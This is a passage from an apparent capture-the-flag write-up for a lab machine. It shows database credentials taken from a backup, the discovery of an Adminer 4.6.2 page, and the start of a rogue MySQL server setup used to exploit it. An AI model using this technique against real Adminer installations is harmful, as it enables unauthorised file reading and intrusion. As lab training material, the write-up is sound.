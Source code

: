 Checking the index.php file from the backup we find more creds.
```
$servername = "localhost";
                        $username = "waldo";
                        $password = "]F7jLHw:*G>UPrTo}~A"d6b";
                        $dbname = "admirerdb";
```

Let's check if we can use these credentials anywhwere.

None of them worked.

#### Foothold 

After being stuck for a while, I would visit google and search for all unknown terms we can see on this server. 

Searching "admirer database php" returned an auto corrected phrase "adminer database management" and the returned pages and images show there is a page called adminer.php
Trying with adminer.php works. 

![adminer](/images/admirer/adminer.png)

*Methodology Check:*

>Going back to directory busting, I could see that this filename exists in a few wordlists which I did not try (big.txt)

Adminer version 4.6.2 Google search bring up this article: 
https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool

The short gist is that you can use the victim (adminer) to connect to a rogue mysql database on the attckers side.

#### Mysql server setup (kali):

Connect to mysql as root
```mysql -u root```

create mysql user:
```
CREATE USER 'test'@'%' IDENTIFIED BY 'test';
GRANT ALL PRIVILEGES ON *.* TO 'test'@'%';
select host, user from mysql.user;
+-----------------+------+
| host            | user |
+-----------------+------+
| %               | test |
